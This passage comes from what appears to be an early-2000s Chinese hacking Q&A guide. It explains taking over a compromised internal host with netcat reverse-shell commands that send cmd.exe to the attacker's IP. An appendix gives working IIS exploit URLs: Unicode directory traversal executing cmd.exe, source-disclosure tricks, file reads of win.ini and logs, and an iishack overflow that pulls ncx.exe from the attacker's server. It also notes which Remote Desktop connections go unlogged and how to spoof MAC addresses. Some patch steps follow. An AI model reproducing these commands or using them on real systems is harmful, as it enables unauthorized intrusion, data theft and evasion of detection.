从理论上来讲，是不可以的。因为你们中间要经过 Internet，而你们两台主机用的又都不是合法的、唯一的真实 IP 地址，那么，即使对方能主动地反向对你进行连接，也会由于你的主机在 Internet 上呈不可见状态而导致无法连接。

## 有一个内部网络，里面的 FTP 服务器只对内部开放；我现在在内部有一台肉鸡，我想连到内部的 FTP 上，该怎么做啊？

首先要获得内部肉鸡的一个 shell，然后通过这个 shell 就可以轻松连接 FTP 服务器了。这就是大致的思路，接下来简单说一下实现过程：这里建议使用 NC，因为它可以做到反向连接。先在自己的本地机器上运行这个命令：

```
nc -v 5277
```

（打开本地的 5277 端口等待连接）

肉鸡上运行这个命令：`nc cmd.exe ip_address 5277`（这里的 ip_address 为你的 IP 地址，所以说，要保证你有合法的一个 IP 地址才可以；这个命令就是将 cmd.exe 重定向到你的主机的 5277 端口上。这样，你就可以从 5277 端口获得 shell，然而这时候你正使用 NC 监听该端口，因此就获得了 shell。）

这样，就是一个命令行的 shell 了，直接用 FTP IP 来连接内部的 FTP 服务器就无论是上传还是下载都可以了。

## 什么样的网络模型适合于嗅探？

传输是基于广播模式的网络最容易被嗅探的。简单来说，十台计算机连在同一个 HUB 上，这样的网络，在任何一台计算机上安装一个 sniffer 都可以，都有可能嗅探到大量的有用信息。因为 HUB 在转发数据的时候，只是单纯地进行广播而已，将数据包以广播的形式发送到所有的端口上（也就是发送给所有的在线主机），接下来由主机判断是否要接收该数据包。不难看出，这样的网络，任何信息都会到达每一台主机，如果进行嗅探的话，没有道理嗅探不到有用的信息的。

## 请问连 3389 有没有日志，如果有放在哪边呢？

win2k 的终端服务是没有日志的，不会像 web 服务或是 FTP 服务那样生成 `*.log` 文件，而且，从事件查看器中也看不到什么东西。但是，如果中途意外断开的话，在日志中就会记录你的 IP 地址了，所以，要小心哦。

## 如何进入只开了端口 80 的主机？

这是一个好问题，而且也是一个很难的问题。Win2k 的 IIS 中自带了 web 服务器，凡是使用了 Win2k 来做服务器的人们，大部分都是使用 IIS 自带的 web 服务器（不过也不一定，以我为例，我就是用的 Apache for win，所以他们说我变态，我倒~~~）。

IIS 漏洞实在是多，像著名的 unicode、idq-ida 溢出漏洞，还有最近非常流行的 webDAV 溢出，尤其是后两者，如果利用成功的话，都可以获得 system 权限。这些漏洞，在攻击过程中都是使用的端口 80。

另外，除了 IIS 自身的漏洞以外，就是 CGI 漏洞了。现在在 windows 上写 CGI 程序的话，主要就是使用 ASP 和 PHP（后者相对比较少）。只要对这些语言比较精通的话，再加上细心的观察和测试，找出 CGI 漏洞也是有可能的，不过，过程是很艰辛的。

除了这两个，可能使用的就是 SQL injection 攻击了。不过，这需要对方的后台运行着 SQL SERVER 或者是 ACCESS 数据库才行。而且，如果想使用 SQL injection 攻击的话，不但要对 web 编程有了解，而且还要熟悉数据库的操作和使用，以及 SQL 语句才可以。

### 最后的附录部分

## IIS 漏洞集锦

### （1）Null.htw

IIS 如果运行了 Index Server，就包含了一个通过 Null.htw 有关的漏洞，即服务器上不存在以 `.htw` 结尾的文件。这个漏洞会导致显示 ASP 脚本的源代码，`global.asa` 里面包含了用户账户等敏感信息。如果攻击者提供特殊的 URL 请求给 IIS，就可以跳出虚拟目录的限制，进行逻辑分区和 ROOT 目录访问。在 Index Server 中没有充分防止各种类型文件的请求，所以导致攻击者访问服务器上的任意文件。Null.htw 功能可以从用户输入中获得 3 个变量：

- CiWebhitsfile
- CiRestriction
- CiHiliteType

你可通过下列方法传递变量来获得如 `default.asp` 的源代码：

`http://www.目标机.com/null.htw?CiWebhitsfile=/default.asp%20&%20CiRestriction=none%20&%20&CiHiliteType=full`

其中不需要一个合法的 `.htw` 文件，是因为虚拟文件已经存储在内存中了。

### （2）MSADC——执行本地命令漏洞

这个漏洞出现得比较早，但在全球范围内，可能还有好多 IIS WEB 服务器存在这个漏洞，就像在今天还有很多人在用 Windows 32 一样。IIS 的 MDAC 组件存在一个漏洞，可以导致攻击者远程执行目标系统的命令。主要核心问题是存在于 RDSDataFactory，默认情况下，它允许远程命令发送到 IIS 服务器中，命令会以设备用户的身份运行，在默认情况下是 SYSTEM 用户。

我们可以通过以下办法测试本机是否存在这个漏洞：

`c:\>nc -nw -w 2 <目标机> 80GET /msadc/msadcs.dll HTTP`

如果你得到下面的信息：`application/x_varg`，就很有可能存在此漏洞，且没有打上补丁。你可以使用 rain forest puppy 网站的两个程序进行测试（www.wiretrip.net/rfp）===> `mdac.pl` 和 `msadc2.pl`。

### （3）ASP Dot Bug

这个漏洞出现得比较早了，是 Lopht 小组在 1997 年发现的缺陷。这个漏洞也是泄露 ASP 源代码给攻击者，一般在 IIS 3.0 上存在此漏洞。在请求的 URL 结尾追加一个或者多个点，导致泄露 ASP 源代码。

`http://www.目标机.com/sample.asp.`

### （4）idc & .ida Bugs

这个漏洞实际上类似 ASP dot 漏洞，它能在 IIS 4.0 上显示其 WEB 目录信息。很奇怪有些人在 IIS 5.0 上发现过此类漏洞。通过增加 `?idc?` 或者 `?ida?` 后缀到 URL，会导致 IIS 尝试允许通过数据库连接程序 DLL 来运行 IDC；如果此 `.idc` 不存在，它就返回一些信息给客户端。

`http://www.目标机.com/anything.idc` 或者 `anything.idq`。

### （5）+.htr Bug

这个漏洞是由 NSFOCUS 发现的，对有些 ASA 和 ASP 追加 `+.htr` 的 URL 请求就会导致文件源代码的泄露：

`http://www.目标机.com/global.asa+.htr`。

### （6）NT Site Server Adsamples 漏洞

通过请求 `site.csc`（一般保存在 `/adsamples/config/site.csc` 中），攻击者可能获得一些如数据库中的 DSN、UID 和 PASS 的信息，如：

`http://www.目标机.com/adsamples/config/site.csc`。

### （7）IIS HACK

有人发现了一个 IIS 4.0 的缓冲溢出漏洞，可以允许用户上传程序，如上传 netcat 到目标服务器，并把 cmd.exe 绑定到 80 端口。这个缓冲溢出主要存在于 `.htr`、`.idc` 和 `.stm` 文件中，其对关于这些文件的 URL 请求没有对名字进行充分的边界检查，导致运行攻击者插入一些后门程序，在系统中下载和执行程序。

要检测这样的站点你需要两个文件 `iishack.exe`、`ncx.exe`，你可以到站点 www.technotronic.com 中去下载。另外你还需要一台自己的 WEB 服务器（也可以是虚拟服务器）。你在自己的 WEB 服务器上运行 WEB 服务程序并把 `ncx.exe` 放到相应目录下，然后使用 `iishack.exe` 来检查目标机器：

`c:\>iishack.exe <目标机> 80 <你的WEB服务器>/ncx.exe`。

然后使用 netcat 来连接要检测的服务器：

`c:\>nc <目标机> 80`。

如果溢出点正确，可以看到目标机器的命令行提示，并且是远程管理权限。

Codebrws.asp 和 Showcode.asp 在 IIS 4.0 中是附带的看文件程序，但不是默认安装的。这个查看器是在管理员允许查看样例文件作为联系的情况下安装的。但是，这个查看器并没有很好地限制所访问的文件，远程攻击者可以利用这个漏洞来查看目标机器上的任意文件内容，但要注意以下几点：

- a. Codebrws.asp 和 Showcode.asp 默认情况下不安装。
- b. 漏洞仅允许查看文件内容。
- c. 这个漏洞不能绕过 WINDOWS NT 的 ACL 控制列表的限制。
- d. 只允许同一分区下的文件可以被查看。
- e. 攻击者需要知道请求的文件名。

例如你发现存在这个文件并符合上面的要求，你可以请求如下命令：你就可以看到 `codebrws.asp` 的源代码了。你也可以使用 `showcode.asp` 来查看文件；当然你也可以查看一些 FTP 信息来获得其他目标管理员经常使用的机器。

```
http://www.目标机.com/iisamples/exair/howitworks/codebrws.asp?source=/iisamples/exair/howitworks/codebrws.asp

http://www.目标机.com/msadc/samples/selector/showcode.asp?source=/msadc/../../../../../../winnt/win.ini

http://xxx.xxx.xxx.xxx/msadc/Samples/SELECTOR/showcode.asp?source=/msadc/Samples/../../../../../../winnt/system32/logfiles/MSFTPSVC1/ex000517.log
```

## win2k 部分

（所以把 IIS 目录和 WINNT 分区安装是个不错的方案，这样也可能比较好地防止最新的 IIS 5.0 的 unicode 漏洞）。

### （8）webhits.dll & .htw

这个 hit-highlighting 功能是由 Index Server 提供的。`Webhits.dll` 是一个 ISAPI 应用程序来处理请求，打开文件并返回结果。当用户控制了 `CiWebhitsfile` 参数传递给 `.htw` 时，他们就可以请求任意文件，结果就是导致可以查看 ASP 源码和其他脚本文件内容。要了解你是否存在这个漏洞，你可以请求如下条目：

`http://www.目标机.com/nosuchfile.htw`

如果返回 `format of the QUERY_STRING is invalid`，就表示你存在这个漏洞。主要问题是 `webhits.dll` 关联了 `.htw` 文件映射，所以取消这个映射可以避免漏洞。

- /iissamples/iissamples/oop/qfullhit.htw
- /iissamples/iissamples/oop/qsumrhit.htw
- /isssamples/exair/search/qfullhit.htw
- /isssamples/exair/search/qsumrhit.htw
- /isshelp/iss/misc/iirturnh.htw

```
http://www.目标机.com/iissamples/iissamples/oop/qfullhit.htw?ciwebhitsfile=/../../../winnt/win.ini&cirestriction=none&cihilitetype=full
```

### （9）ASP Alternate Data Streams（::$DATA）

`$DATA` 漏洞在 1998 年中期公布。`$DATA` 是 NTFS 文件系统中的 main data stream 属性。通过特殊格式 URL，可在浏览器中访问该 data stream，从而显示文件代码中的数据流内容。此漏洞通常要求：文件在 NTFS 分区、ACL 全局可读、且未授权用户需要知道文件名。WIN NT 中 IIS 1.0/2.0/3.0/4.0 都存在该问题。可通过如下 URL 查看 `.asp` 内容：

`http://www.目标机.com/default.asp::$DATA`

可以看看这文章：http://focus.silversand.net/newsite/skill/ntfs.txt。

### （10）ISM.DLL 缓冲截断漏洞

这个漏洞存在于 IIS 4.0 和 5.0 中，允许攻击者查看任意文件内容和源代码。通过在文件名后面追加近 230 个 `+` 或者 `%20`（表示空格）并追加 `?.htr` 的特殊请求给 IIS，会使 IIS 认为客户端请求的是 `?.htr?` 文件，而 `.htr` 文件后缀映射到 ISM.DLL ISAPI 应用程序。这样 IIS 就把这个 `.htr` 请求转交给这个 DLL 文件，然后 ISM.DLL 程序把传递过来的文件打开和执行，但在 ISM.DLL 截断信息之前，缓冲区发送一个断开的 `.htr` 并会延迟一段时间来返回一些你要打开的文件内容。可是要注意，除非 WEB 服务停止并重启过，否则这攻击只能有效执行一次。如果已经发送过一个 `.htr` 请求到机器上，那么这攻击会失效。它只能在 ISM.DLL 第一次装入内存时工作。

`http://www.目标机.com/global.asa%20%20(...<=230)global.asa.htr`

### （11）存在的一些暴力破解威胁 .htr 程序

IIS 4.0 中包含一个严重漏洞，就是允许远程用户攻击 WEB 服务器上的用户账号。每个 IIS 4.0 安装时会建立一个虚拟目录 `/iisadmpwd`，这个目录包含多个 `.htr` 文件，匿名用户允许访问这些文件，这些文件刚好没有规定只限制在 loopback addr（127.0.0.1）。请求这些文件就跳出对话框，让你通过 WEB 来修改用户的账号和密码。这个目录物理映射在下面目录下：

```
c:\winnt\system32\inetsrv\iisadmpwd
```

- Achg.htr
- Aexp.htr
- Aexp2.htr
- Aexp2b.htr
- Aexp3.htr
- Aexp4.htr
- Aexp4b.htr
- Anot.htr
- Anot3.htr

这样，攻击者可以通过暴力来猜测你的密码。如果你没有使用这个服务，请立即删除这个目录。

### （12）IIS 存在的 Unicode 解析错误漏洞

NSFOCUS 安全小组发现微软 IIS 4.0 和 IIS 5.0 在 Unicode 字符解码的实现中存在一个安全漏洞，导致用户可以远程通过 IIS 执行任意命令。当 IIS 打开文件时，如果该文件名包含 Unicode 字符，它会对其进行解码；如果用户提供一些特殊的编码，将导致 IIS 错误地打开或者执行某些 web 根目录以外的文件。

你可以使用下面的方法利用这个漏洞：

- 1. 如果系统包含某个可执行目录，就可能执行任意系统命令。下面的 URL 可能列出当前目录的内容：  
  `http://www.目标机.com/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir`
- 2. 利用这个漏洞查看系统文件内容也是可能的：  
  `http://www.目标机.com/a.asp/..%c1%1c../../%c1%1c../winnt/win.ini`

> 注意：使用这个漏洞直接获得的权限是 guest 级别的权限。

### （13）IIS 的 IDQ、IDA 溢出漏洞

IIS 在处理以 `.ida` 为扩展名的 URL 请求时，它会有两种结果。一个可能的结果是服务器回复 “URL String too long” 的信息，或……类似“Cannot find the specified path”的信息。另一种可能就是服务器端服务停止，并返回“Access Violation”信息（即成功地实现了对服务器端的拒绝服务攻击）。

另外，只要在浏览器中键入 `http://target/*.ida`，如果存在这个漏洞的话，就会暴露 Web 页面存放的绝对路径。

然而，其危险性还不止这些。由于这个漏洞可以形成溢出，所以只要提交一段精心制造的代码，就可以导致系统执行任意的命令，并且是以系统级执行。所以，只要存在该漏洞，很容易就会被攻击，并且被攻击者获得 administrator 的权限。

最常被使用的攻击程序就是 snake 的 GUI 界面的攻击程序 IISIDQ（图11-108）。该工具可以绑定任意的 cmd 命令，因此很容易就可以通过溢出获得管理员权限，我们“傻瓜黑客”的福音啊！

msw3prt.dll 中发生典型的缓冲区溢出，潜在允许执行任意代码。溢出发生后，Web 服务停止响应，Win 2K 可以检测到 Web 服务停止响应，从而自动重启它，因此系统管理员很难意识到发生过攻击。

使用攻击程序为：小榕的 IISExploit（图11-109）。该攻击程序只适用于英文版的 IIS 5.0，攻击成功后，对方将反向主动连接本机上用 NC 开放的端口，并且获得一个 shell。危害极大，很轻松就可以获得 administrator。

图11-108

图11-109

## （14）IIS.printer 漏洞

微软 Win 2K IIS 5 的打印 ISAPI 扩展接口建立了 `.printer` 扩展名到 msw3prt.dll 的映射关系，缺省情况下该映射存在。当远程用户提交对 `.printer` 的 URL 请求时，IIS 5 调用 msw3prt.dll 解释该请求。由于 msw3prt.dll 缺乏足够的缓冲区边界检查，远程用户可以提交一个精心构造的针对 `.printer` 的 URL 请求，其“Host:”域包含大约 420 字节的数据，此时在 msw3prt.dll 中发生典型的缓冲区溢出，潜在允许执行任意代码。

## （15）IIS.asp

Microsoft IIS（Internet Information Server）是 MS Windows 系统默认自带的 Web 服务器软件。

IIS 4.0/5.0 ASP（Active Server Pages）ISAPI 过滤器存在远程缓冲区溢出漏洞，远程攻击者可以利用此漏洞得到主机本地普通用户访问权限。默认安装的 IIS 4.0/5.0 服务器加载了 ASP ISAPI 过滤器，它在处理分块编码传送（chunked encoding transfer）机制的代码中存在一个缓冲区溢出漏洞。攻击者通过提交恶意分块编码的数据可以覆盖 heap 区的内存数据，使之以他指定的数据重写任意地址的 4 字节内存。例如，攻击者可以让 dllhost.exe 重写它可以访问的任意 4 字节内存，包括程序函数指针、意外处理模块指针或其他任何可以用来控制程序执行流程的地址，从而改变程序执行流程，执行任意攻击者指定的代码。如果攻击者使用随机数据，可能使 IIS 服务崩溃（IIS 5.0 会自动重启），也可能允许攻击者执行任意代码。成功地利用这个漏洞，对于 IIS 4.0，远程攻击者可以获取 SYSTEM 权限；对于 IIS 5.0，攻击者可以获取 IWAM_computername 用户的权限。

**注意：** 利用这个只能获得 IWAM_computername 用户的权限，是个 guest 权限而已，能干的事并不太多。

使用工具：aspcode。其实这个漏洞用起来比较麻烦，成功率也不高。但是用 aspcode 能看到有漏洞的主机的源代码，如果成功获得代码的话，再加上你的 ASP 编程水平，那么这次攻击也算是成功了一半了。

## （16）WebDAV 漏洞（最新漏洞哦）

Microsoft IIS 5.0（Internet Information Server 5）是 Microsoft Windows 2000 自带的一个网络信息服务器，其中包含 HTTP 服务功能。IIS 5 默认提供了对 WebDAV 的支持，通过 WebDAV 可以通过 HTTP 向用户提供远程文件存储的服务。但是作为普通的 HTTP 服务器，这个功能不是必需的。

IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 Web 进程权限在系统上执行任意指令。

IIS 5.0 的 WebDAV 使用了 ntdll.dll 中的一些函数，而这些函数存在一个缓冲区溢出漏洞。通过对 WebDAV 的畸形请求可以触发这个溢出。成功利用这个漏洞可以获得 LocalSystem 权限，这意味着入侵者可以获得主机的完全控制能力。

攻击方法：针对打开了 WebDAV 的 Web 服务器，我们可以使用攻击工具 wd。另外，还有代码。不过，还有一个工具，是 isno 大大使用 Perl 语言写的，我比较喜欢这个；对于很多在 Linux 下上网的朋友来说，用 Perl 语言写的脚本相对会更好一些。如果使用 Perl 脚本的话，记住使用 webdavx2.pl，这个是 isno 根据第一个脚本的缺点修改的，只要攻击成功后，在 7788 端口处会获得一个 shell，telnet 上去就可以了。

## 针对一些常见漏洞的手工修补方法

主要针对上面的几个漏洞中一些危险性比较大的漏洞：

### 1. idq、ida 溢出漏洞

这个漏洞使大多数人都过了一把黑客瘾，攻击简单，而且容易成功。除了使用补丁修补以外，还可以删除 ISAPI 扩展中的 idq 和 ida 的映射（图11-110）。

微软的 SP3 补丁包可修补该漏洞。

### 2. printer 漏洞

手动修补的最好办法就是不要共享你的打印机，然后仍然是到 ISAPI 扩展中删除 `.printer` 的映射（图11-111）。另外，修改注册表也是可以的，注册表位置为：`HKLM\Software\Policies\Microsoft\Windows NT\Printers\`，将 `DisableWebPrinting` 的值设置为 1 就可以了。

微软的 SP3 补丁可修补该漏洞。

图11-111

### 3. IIS.asp 漏洞

呵呵，没办法，仍然是删除 `.asp` 映射（建议把 `.asa` 文件也删除），但是这要以不能使用 asp 文件为代价。不过，我有朋友反映，即使简单删除映射，不使用 asp 文件，如果没有删除 asp.dll 这个文件的话，也会产生溢出。既然这样，那就一起删了吧，反正也用不了 asp 文件了（图11-112）。微软的 SP3 补丁包可修补该漏洞。

图11-112

### 4. WebDAV 漏洞

这个漏洞造成的影响据说可以和 idq、ida 溢出漏洞相比了。所以大家一定要注意，而且我也建议，到目前为止，最好使用手动修补的方法。因为虽然微软这是第一次比漏洞先推出补丁，但是 SP4 好像有点问题，不少人都反映安装完成 SP4 后会对计算机有影响，而且微软官方也已经承认 SP4 确实有缺陷。所以，如果可以的话，采用手动修补的办法。

- 使用微软提供的 IIS Lockdown 工具可能可以防止该漏洞被利用。
- WebDAV 在 IIS 5.0 Web 服务器上的实现由 Httpext.dll 完成，默认安装。但是简单更改 Httpext.dll 不能修正此漏洞，因为 Windows 2000 的 WFP 功能会防止系统重要文件被破坏或删除。要完全关闭 WebDAV 包括的 PUT 和 DELETE 请求，可对注册表进行如下更改：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters`

在这里增加一个值：其名为“DisableWebDAV”，为 DWORD 类型，给其数据改为 1。

OK，这样就完成修补了。微软的 SP4 补丁包可修补该漏洞。

## 第12章 win2k 问题经验篇

## 第12章 win2k 问题经验精解

这部分的问题有点特色。我想各位在看过前面的那些问题后，已经不再满足于简单的问答模式了。所以，在这里，我将带领大家学习更多：在这部分，我将尽量把问题涉及到的其他方面都找出来，一一解决；在这部分，我将尽量把问题的分析步骤详细列出，以便让大家学会分析问题的方法；在这部分，我将尽量把尽可能多的解决方案写出，以供大家进一步参考。

## IPC$ 默认共享是哪个文件夹？

首先，先来学习一些基础知识：对初学者来说，很难搞清楚默认共享。其实，我们常见的默认共享有很多：C$、D$、E$、F$ 等等，这些都是分区盘符对应的共享。NETLOGON，这是一个默认的共享，在一般计算机上是没有的，它是一个在处理域登录请求时 Windows 2000 Server 计算机的网络登录服务使用的资源。Admin$ 对应的是 `C:\WINNT`。以上这些都对应着一个硬盘分区或一个文件夹的共享；除此之外，还有些硬件设备以及与硬件设备相关的资源也是被共享的，它们都包括：FAX$、PRINT$。注意：这里的 FAX$，它的作用是为传真机提供一个缓冲区。好，最后，我们来说 ipc$，它是共享命名管道的资源，命名管道是程序间通信的基础。

注意：该共享只是一个“命名管道”。而且，对 ipc$ 的描述中已经说明，它是用来完成程序间通信的基础。

`net use \\ip\ipc$ password /user:username`

这个命令的作用就是建立一个命名管道的连接。我们可以假想在两台计算机之间，有一条管道连接着两台机器，这样我们使用 at 或 copy 等命令运行程序时，才能让对方有所响应，这实际上就是一个程序的通信过程。多一些了解：如果大家对于 win2k 的权限以及一些限制比较熟悉的话，就应该很清楚，win2k 的管理员和普通 users 组的用户是有本质区别的，尤其在设置了权限的 NTFS 格式磁盘上的操作，这点显示得更加明显。很多朋友在获得了 guests 组或 users 组用户后，建立了 ipc$ 连接后，很多事都是不能做的，就是一个权限的体现。然而，如果获得的是 administrators 组的管理员帐号呢？除非对方使用防火墙或者安全策略禁止掉远程连接（或是删除 ipc$ 共享）以外，其他情况是无法阻止管理员做任何事的。

为什么会有上面的这种现象？

其实，这都是因为 ipc$ 的连接是程序间通信的基础。正是因为这样，所以即使是相同的程序，也会对建立连接时使用的不同用户进行识别。

OK，说了这么多，大家应该不会再问 ipc$ 对应哪个文件夹了吧。

## 相同的端口号，可以既开 TCP 端口又开 UDP 端口吗？

从前面的章节中，我们可以知道端口的概念是什么，那么它的作用是什么呢？

端口提供的是端到端的传输，是提供一个准确的传输。我们知道，端口可以准确地定位一个应用程序（更确切地说，应该是一个进程）的准确位置。

所以说，端口的作用就是能让对方一个应用程序准确地找到目的地址机器上的一个程序或进程。这样，端口就可以保证两个进程间准确地通信。

接下来，另外一个问题：为什么要区分 UDP 和 TCP 端口？

在说明这个问题前，我们要先明白 TCP 和 UDP 的区别。

TCP 是面向连接的协议，是可靠的传输协议。使用 TCP 进行传输的时候，每次数据的传输都要经过对方确认，以确保数据准确可靠地传输到目的地。

如果传输出现错误的话，TCP 还有重传机制保证将传输中出现错误的数据重新传送一次。

UDP 是非面向连接协议，是不可靠的传输协议。使用 UDP 协议的时候，只要将数据送出，发送方就不会再去确认对方是否收到数据了，当然，UDP 更不会有什么重传机制了，因此传输过程不能保证数据准确到达。

综合比较，TCP 虽然可以准确地将数据传输给对方，但是传输前需要建立连接，而且传输过程中还需要确认；而 UDP 则不需要做这些事情。所以，在速度上 UDP 协议传输数据显然要比 TCP 快得多。

正是因为这样，根据速度上的需要，我们才会区分 UDP 和 TCP 协议。同理，也要区分 UDP 和 TCP 端口。

说了这么多，并不是废话哦。应该不难理解，每个端口无论是 TCP 还是 UDP 端口，每个端口都会对应一个服务。

现在回答问题：同一个端口号，例如 4000，我们不但可以开放 TCP 4000 端口，还可以开放 UDP 4000 端口。每个端口会根据服务的不同要求而开放不同的协议，而相互之间并不会受到影响。

问题回答得很简单，但是关于这部分的知识还有很多，这里进行一下扩展：从我们熟悉的 netstat 命令说起，`netstat -n` 这样一个命令会返回这样一个结果：

```text
C:\>netstat -an
Active Connections

Proto  Local Address    Foreign Address    State
（协议）（本地地址:端口）（远程主机:端口）（状态）
TCP    0.0.0.0:25       0.0.0.0:0          LISTENING
TCP    0.0.0.0:119      0.0.0.0:0          LISTENING
TCP    0.0.0.0:135      0.0.0.0:0          LISTENING
TCP    0.0.0.0:445      0.0.0.0:0          LISTENING
TCP    0.0.0.0:563      0.0.0.0:0          LISTENING
TCP    0.0.0.0:1025     0.0.0.0:0          LISTENING
...
TCP    127.0.0.1:1616   127.0.0.1:5277     ESTABLISHED
TCP    127.0.0.1:5277   127.0.0.1:1616     ESTABLISHED
UDP    0.0.0.0:135      *:*
UDP    0.0.0.0:161      *:*
UDP    0.0.0.0:445      *:*
UDP    0.0.0.0:1027     *:*
UDP    0.0.0.0:1029     *:*
UDP    0.0.0.0:3456     *:*
```

一个简单的命令显示结果里，我们只要细心观察，就可以看到几个问题：

第一个，State（状态），这里常见到的有几个：LISTENING、ESTABLISHED、TIME_WAIT、CLOSE_WAIT。关于 TCP 的状态位前面已经列出过，这里就不再重复了。

第二个，还是 State（状态）这部分，仔细观察 TCP 和 UDP 之间的区别。TCP 后面的 Foreign Address（远程主机地址）这部分是有地址的，当有连接的时候就会有显示，例如这部分：

```text
TCP 127.0.0.1:1616   127.0.0.1:5277 ESTABLISHED
TCP 127.0.0.1:5277   127.0.0.1:1616 ESTABLISHED
```

而 UDP 后面的 Foreign Address（远程主机地址）却没有，而且 UDP 的状态位（stat）也没有哦，这是为什么？

我们已经说过了，TCP 是面向连接的协议，而 UDP 是非面向连接的，这就是引起这些区别的原因。

因为 UDP 没有那么多的连接状态，所以没有连接状态位（stat），这是很容易理解的。

另外，Foreign Address（远程主机地址）也是由于 UDP 是非面向连接的，和 TCP 是不一样的。TCP 在传输数据前是要建立一个连接的，而 UDP 则不需要。而该命令显示的是连接的远程主机的地址和端口，由于 UDP 中并没有这个连接，所以该位也是没有的。

关于这部分的问题就先说这么多了，类似的问题还有很多，希望大家多观察、多思考，不过，理论知识基础也是必要的。

## 不是说网卡的 MAC 地址唯一吗，通过注册表怎么也能改 MAC 啊？

## MAC 地址是什么样的？

MAC 地址在我们的计算机中的具体体现就是物理地址，即网卡地址。我们使用命令 `ipconfig /all` 就可以查看我们的网卡地址（图12-1）。

图中，我们可以看到这样一行：

Physical Address . . . . . . . . . . : 00-00-39-8D-6A-EA

不用我说大家也知道了，这就是我们的物理地址，也就是网卡地址。

网卡地址是由十六进制表示的，一共分为六段。前三段，即“00-00-39”是用来表明厂家的，也就是说，不同厂家的前三段是不同的。不信的话，大家可以用自己的网卡和我的网卡的 MAC 地址比一下。我的网卡是 TOSHIBA Satellite 2410 笔记本随机带的，是 Intel 的。如果也有使用 TOSHIBA Satellite 2410 笔记本的朋友可以比对一下，前三段应该是相同的。

另外，后面的三段则是由厂家定义，至于如何定义，我就不知道了，而且对于我们来说，也不需要知道。

## MAC 地址在哪？

我们一直都说网卡的 MAC 地址，可是它到底在哪？网卡地址实际上是被烧制在网卡上的一个 EPROM 上的。从正常角度来说，要想修改 EPROM 里的信息并不那么简单，但是很多厂家都会提供一个烧制 EPROM 的程序，只要下载运行该程序，你就可以把自己想要的新地址烧在 EPROM 上，这样就达到了修改 MAC 地址的目的。

## 听说修改注册表也可以修改 MAC 地址，是吗？

从上面的问题中，我们应该知道了，MAC 地址是被固化在了硬件上的，所以说简单地修改注册表就能改 MAC 地址绝对是一个谎言。

但是，一定要注意，修改注册表却可以达到另外一种“修改 MAC 地址”的目的。

## 这句话怎么理解？

修改注册表后，我们可以做到这些：

- 使用 `ipconfig /all` 命令查看 MAC 地址，发现地址已变化；
- 在局域网中，查看与该机有通信过程机器的 ARP 缓存（命令：`arp`）会发现对方 MAC 地址已经变化；
- 主机在封装数据的时候，会将注册表中的新的 MAC 地址封装到包头中，而不是原来的。

综合上述这些情况，大家都会说，这样的话 MAC 地址实际上就是改变了嘛。

但是我已经强调过了，MAC 地址是在物理部件上的，不经过烧制是无法修改的。

如果这时候我们用一些特殊的程序（这些特殊程序一些厂家应该会提供的，可以到厂家的主页上找一下）来直接查看网卡上的 MAC，会发现原来地址真的没有改变。

但是，为什么会有上述的那些情况呢？

因为，在主机每次发送数据的时候，需要有一个将 MAC 地址写在数据包报头上的过程，而这个过程由谁完成便是关键了。

如果该过程由网卡完成的话，那么网卡一定会很老实地将自己的地址写在上面。不过很可惜，这个过程实际上是由应用程序来完成的。这样一来，获得 MAC 地址这个任务就要由应用程序来负责了。

应用程序获得 MAC 的过程是什么样的？

应用程序会先查看注册表中是否记录了 MAC 地址，如果有的话，就会直接从这里获得 MAC 地址，然后写到数据包的报头中；如果没有的话，才会去询问网卡，要求 MAC。

既然我们知道了这个过程，那么，我们只需要在注册表中存放一个假的 MAC 地址，就达到了任意修改 MAC 地址的目的了。（^^ 简单吧？不过更可怕哦，MAC 欺骗的第一步——修改 MAC 地址竟然如此简单就完成了。）

## 如何使用注册表修改 MAC 地址？

说了这么多，关键的问题竟然忘了。修改 MAC 地址的注册表位置如下：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Class\4D36E972-E325-11CE-BFC1-08002BE10318`

在这下面，有很多的项，它们的命名方式是：000、001、002、003……至于一共多少个项，则取决于设备数量。

选中这些项，查看右边窗口中的“DriverDesc”的数据内容，当该数据内容为你的网卡品牌的描述的时候（图12-2），那么，这一项就是我们要找的了。

图12-2

> （注意：这里并不能确定在哪一项下。例如，我的两台电脑的这个值的位置就不一样，一台在项000下，另外一台则在008这项下面。）

找到这一项后，在其右边窗口中新建一个字符串值，名为“NetworkAddress”，重新启动计算机后，就会生效了。

注意修改地址时，地址的格式为：

`xxxxxxxxxxxx`（12 个字符长），中间是没有那个短线“ - ”的。例如，我要将我的机器的地址修改为 00-10-20-30-40-50 的话，那么，“NetworkAddress”中的数据格式为：001020304050（如图12-3）。

图12-3

重启计算机完成后，我们再用 `ipconfig /all` 来查一下，会发现地址确实已经改变了（图12-4）。

图12-4

除此之外，在局域网的其他机器上，先 ping 一下这台主机，然后查看 ARP 缓存，也会发现其通信时使用的 MAC 地址也确实已经改变了（图12-5）。

图12-5

怎么样？看来修改 MAC 不容易，但是，让计算机使用与真实 MAC 不同的 MAC 地址进行通信并不是什么难事。

说了这么多，我想，最初的问题大家也就清楚了吧。

## 建立 ipc$ 连接的时候出现“发生系统错误 1219”，怎么解决？

不光是在使用 `net use` 命令建立 ipc$ 连接的时候，无论任何的 net 命令，也无论是运行成功还是失败，都会有一个消息（message），这个消息的作用就是告诉操作者，该命令的运行结果。

一般情况下，这个消息都是用一个数字代替，就像题目中的 1219 这样。

如何知道消息的内容？

很多人不能自己解决问题的关键并不是他和其他人知识相差太多，而是他不愿意自己去做。就像这个最简单的问题，如何才能知道消息的内容呢？

其实，使用 net 命令就可以完成这项工作，我们只要用 `net helpmsg 1219` 这个命令就可以查看消息 1219 对应的事件内容（图12-6）。

图12-6

这个消息对应的事件是“提供的凭据与已存在的凭据集冲突”。

关于事件内容，大家应该很熟悉了，引起该事件的原因就是因为已经和对方建立了一个 ipc$ 连接，只要先删除这个连接就可以了。

关于 ipc$ 连接的错误信息，只要知道了事件的具体内容，其实很多都是很容易解决的。

## PQWAK 对 win2k 有效吗？

## 关于 win2k 和 win98 的密码

首先，先搞清楚，win98 的密码在哪里？打开你的 C 盘（假设 win98 被安装在 C 盘），按下 F3，搜索 `*.pwl`，一会儿就会搜索出来以 pwl 为后缀的文件，pwl 文件就是用来存储 win98 密码的文件了。

